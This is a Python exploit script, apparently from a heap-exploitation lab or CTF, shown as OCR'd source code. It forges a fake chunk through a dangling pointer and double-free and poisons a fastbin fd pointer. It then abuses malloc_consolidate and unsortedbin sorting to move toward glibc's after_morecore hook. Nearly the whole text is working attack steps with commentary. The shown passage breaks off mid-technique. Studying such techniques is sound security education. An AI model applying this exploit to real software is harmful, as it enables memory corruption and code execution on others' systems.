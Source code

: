 ```python
# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# We can't request fast-sized chunks!
# Instead, forge one on the heap using vestigial malloc metadata, then free it via a dangling pointer.

# Prepare dangling pointer.
chunk_A = malloc(0x88, b"A"*8)
dangling_pointer = malloc(0x88, b"B"*8) # Dangling pointer.

free(chunk_A)
free(dangling_pointer)

# Coerce a 0x20 size field onto the heap, lined up with the dangling pointer.
chunk_C = malloc(0xa8, b"C"*8)
chunk_D = malloc(0x88, b"D"*8) # Guard against top consolidation.

free(chunk_C)
chunk_E = malloc(0x88, b"E"*8) # Remainder chunk_C, leaving a free 0x20 chunk.

# Free chunk E to consolidate it with the unsorted 0x20 chunk, avoiding unlinking problems later.
free(chunk_E)

# Consolidate everything with the top chunk, we need to request the space overlapping the 0x20 chunk.
free(chunk_D)

# Free the dangling pointer, the size field at that location is 0x20, vestigial malloc metadata.
free(dangling_pointer) # Double-free.

# Request a chunk overlapping the free 0x20 chunk and overwrite its fd with the address
# of our fake chunk.
chunk_F = malloc(0x88, b"F"*8)
overlap = malloc(0x88, pack(elf.sym.user))


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

# Free the 0x60000 chunk, which is large enough to trigger malloc_consolidate().
# Previously we did this by requesting then freeing a normal chunk bordering the top.
free(mem)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"G"*8)

# Increase the fake chunk size so that it can reach the after_morecore hook.
# Making this value too large will fail the size sanity check during unsortedbin allocation
# of the following chunk. It can also trigger segfaults or busfaults when the remaindering code
# attempts to update the prev_size field of the succeeding chunk.
```